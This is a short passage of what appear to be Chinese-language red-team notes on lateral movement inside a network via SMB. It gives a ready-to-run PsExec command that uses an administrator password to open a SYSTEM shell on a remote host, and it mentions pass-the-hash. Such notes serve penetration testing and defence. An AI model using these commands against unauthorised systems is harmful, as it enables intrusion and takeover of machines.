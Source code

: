 [![](assets/1702372940-d768384e709be9963088ffd52b758c5c.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/8.png)

缺点：第三方软件会被杀软查杀

## [](#SMB%E6%A8%AA%E5%90%91 "SMB横向")SMB 横向[](#SMB%E6%A8%AA%E5%90%91)

利用 SMB 服务可以通过明文或 hash 传递来远程执行，条件 445 服务端口开放。

#### [](#psexec%EF%BC%88windows%E5%AE%98%E6%96%B9%E5%B7%A5%E5%85%B7%EF%BC%89 "psexec（windows官方工具）")psexec（windows 官方工具）[](#psexec%EF%BC%88windows%E5%AE%98%E6%96%B9%E5%B7%A5%E5%85%B7%EF%BC%89)

可获取交互式 shell 使用工具为 windows 官方工具

下载地址：[https://docs.microsoft.com/en-us/sysinternals/downloads/pstools](https://docs.microsoft.com/en-us/sysinternals/downloads/pstools)

```plain
PsExec64.exe \\192.168.91.178 -u administrator -p Abcd1234 -s cmd
```
